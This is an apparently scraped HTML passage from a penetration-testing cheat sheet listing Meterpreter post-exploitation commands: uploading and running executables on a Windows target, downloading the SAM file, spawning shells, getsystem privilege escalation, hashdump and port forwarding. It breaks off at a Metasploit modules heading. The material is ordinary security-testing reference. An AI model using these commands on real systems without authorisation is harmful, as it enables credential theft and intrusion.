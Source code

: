</tbody>
</table>
<h2>Meterpreter Cheat Sheet</h2>
<p>Useful meterpreter commands.</p>
<table>
<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>upload file c:\\windows</td>
<td>Meterpreter upload file to Windows target</td>
</tr>
<tr>
<td>download c:\\windows\\repair\\sam /tmp</td>
<td>Meterpreter download file from Windows target</td>
</tr>
<tr>
<td>download c:\\windows\\repair\\sam /tmp</td>
<td>Meterpreter download file from Windows target</td>
</tr>
<tr>
<td>execute -f c:\\windows\temp\exploit.exe</td>
<td>Meterpreter run .exe on target – handy for executing uploaded exploits</td>
</tr>
<tr>
<td>execute -f cmd -c</td>
<td>Creates new channel with cmd shell</td>
</tr>
<tr>
<td>ps</td>
<td>Meterpreter show processes</td>
</tr>
<tr>
<td>shell</td>
<td>Meterpreter get shell on the target</td>
</tr>
<tr>
<td>getsystem</td>
<td>Meterpreter attempts priviledge escalation the target</td>
</tr>
<tr>
<td>hashdump</td>
<td>Meterpreter attempts to dump the hashes on the target</td>
</tr>
<tr>
<td>portfwd add –l 3389 –p 3389 –r target</td>
<td>Meterpreter create port forward to target machine</td>
</tr>
<tr>
<td>portfwd delete –l 3389 –p 3389 –r target</td>
<td>Meterpreter delete port forward</td>
</tr>
</tbody>
</table>
<h2>Common Metasploit Modules</h2>
<h3>Remote Windows Metasploit Modules (exploits)</h3>
<table>
<thead>
<tr>
<th>Command</th>